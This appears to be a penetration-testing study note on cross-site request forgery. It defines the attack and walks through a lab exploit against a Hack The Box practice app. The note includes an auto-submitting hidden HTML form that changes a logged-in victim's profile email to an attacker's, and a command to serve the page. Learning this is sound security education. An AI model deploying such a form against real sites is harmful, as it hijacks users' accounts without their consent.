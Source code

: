 ```yaml
---
title: e-CSRF
draft: false
tags:
  - csrf
---
```

CSRF or XSRF is an attack that forces and end-user to execute inadvertent actions on a web app in which they are currently authenticated.

This is usually done with attacker-crafted web pages that the victim must visit or interact with.

A web application is vulnerable to CSRF attacks when:

- All the parameters required for the targeted request can be determined or guessed by the attacker
- The application's session management is solely based on HTTP cookies, which are automatically included in browser requests

To successfully exploit a CSRF vulnerability, we need:

- To craft a malicious web page that will issue a valid (cross-site) request impersonating the victim
- The victim to be logged into the application at the time when the malicious cross-site request is issued

In your web application penetration testing or bug bounty hunting endeavors, you will notice a lot of applications that feature no anti-CSRF protections or anti-CSRF protections that can be easily bypassed.

## Exploitation

> Let's say a victim log-in to web app where he/she can update profile (email, telephone, country). 

Intercepting the update traffic, we notice there is no anti-CSRF token in it.

Let's try CSRF attack that will change the victim's profile details by simply visiting another website.

First, create and serve the below HTML page. Save it as `notmalicious.html`

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

We can serve the page above from our attacking machine as follows.

```shell-session
jadu101@htb[/htb]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

While still logged in as victim, open a new tab and visit the page you are serving from your attacking machine `http://<VPN/TUN Adapter IP>:1337/notmalicious.html`. You will notice that victim's profile details will change to the ones we specified in the HTML page we are serving.

Next, we will cover how we can attack applications that feature anti-CSRF mechanisms.